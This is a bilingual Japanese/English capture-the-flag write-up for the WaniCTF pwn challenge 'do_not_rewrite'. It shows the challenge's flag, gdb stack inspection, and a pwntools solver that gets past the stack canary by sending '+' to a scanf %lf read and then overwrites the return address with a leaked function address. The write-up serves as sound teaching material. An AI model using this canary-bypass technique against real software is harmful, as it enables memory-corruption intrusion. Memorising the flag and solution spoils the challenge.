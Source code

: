 ```yaml
---
title: do_not_rewrite
level: 2
flag: FLAG{B3_c4r3fu1_wh3n_using_th3_f0rm4t_sp3cifi3r_1f_in_sc4nf}
writer: manu1
---
```


# do_not_rewrite

## 問題文

canaryにはかなーり気をつけないといけません

Be careful with the canary.

`nc chal-lz56g6.wanictf.org 9004`

---

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

`chal-ywu5dn.wanictf.org`

---

## 解法

まずはバイナリを実行してみましょう。

First of all, let's try running the binary.

```
hint: show_flag = 0x56542d9cf25f

Enter the name of ingredient 1: 1
Enter the calories per gram for 1: 1
Enter the amount in grams for 1: 1

Enter the name of ingredient 2: 1
Enter the calories per gram for 1: 1
Enter the amount in grams for 1: 1

Enter the name of ingredient 3: 1
Enter the calories per gram for 1: 1
Enter the amount in grams for 1: 1

Enter the name of ingredient 4: 1
Enter the calories per gram for 1: 1
Enter the amount in grams for 1: 1

Total calories for the meal: 3.00 kcal
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

hintでshow_flagのアドレスをくれます。
適当に入力するとstack smash detected が表示されました。このエラーはcanaryの書き換えが起こると表示されるバグであるため、どこかでcanaryの書き換えが発生していることがわかります。

gdbで解析してみましょう。gefを使うことをおすすめします(例えばこれ: https://github.com/bata24/gef)。


The hint provides the address of show_Flag().
As we input data randomly, the message stack smash detected is displayed. This error indicates that the canary has been overwritten, which means that somewhere in the process the canary value is being altered.

Let's analyze it using gdb. I recommend using gef (for example: https://github.com/bata24/gef).

```
gdb -q chall
b *main+426
```

実行がストップしたところで`tele -l 40`とかでスタック領域を表示してみると、rbpのすぐ上に末尾が`00`になっている変数があります。これがcanaryです。

When execution stops, you can display the stack area using a command like `tele -l 40`. You'll see a variable ending in 00 just above rbp. This is the canary. 

```
0x00007fffffffde30│+0x0000: 0x0000000000000000	 ← $rsp
.
.
.
0x00007fffffffdf18│+0x00e8: 0x01be2a7b56ad5600   ← canary
0x00007fffffffdf20│+0x00f0: 0x0000000000000001	 ← $rbp
0x00007fffffffdf28│+0x00f8: 0x00007ffff7c29d90   ← return address
.
.
.
```

試しに入力するたびにteleコマンドでスタックの様子を見てみると、4回目の呼び出しでcanaryを書き換え、更にその先のreturn addressも書き換えることができるのがわかります。

つまり4回目の入力のときにcanaryを書き換えず、return addressをshow_flagに書き換えられればexploitできそうです。

canaryに当たるアドレスにはdouble型で入力が受け付けられています(%lf)。実は%lfに`+`や`-`、`.`などの文字を入力すると元のアドレスの値を書き換えずにscanfの処理が終了するという性質があります。この性質を使ってcanaryをバイパスし、return addressをヒントから得られるアドレスに書き換えてやることでフラグを取得することができます。


By observing the stack with the tele command each time you input data, you'll notice that on the fourth input, the canary gets overwritten, and you can also overwrite the return address further ahead.

In other words, it seems that if we overwrite the return address with the address of show_flag() without altering the canary during the fourth input, we might be able to exploit it.

The address corresponding to the canary accepts input as a double (%lf). In fact, when characters such as `+`, `-`, or `.` are input to %lf, the scanf processing ends without overwriting the original value at the address. By using this property to bypass the canary and overwrite the return address with the address provided in the hint, you can obtain the flag.


solverの例は以下の通りです。

The solver is as follows.
```
from pwn import *
import sys

elf = ELF("../src/chall")

io = process(elf.path)

input("let's go")

# get address of show_flag()
io.recvuntil(b"= ")
addr_show_flag = io.recvline()[:-1].decode('utf-8')
info(f"show_flag:{addr_show_flag}")

#exploit
io.recvline()
for i in range(3):
    io.sendlineafter(b": ", b"a")
    io.sendlineafter(b": ", b"1")
    io.sendlineafter(b": ", b"1")

io.sendlineafter(b": ", p64(int(addr_show_flag, 16)+8))
io.sendlineafter(b": ", b"+")
io.sendlineafter(b": ", b"+")

info(io.recvuntil(b"}"))
```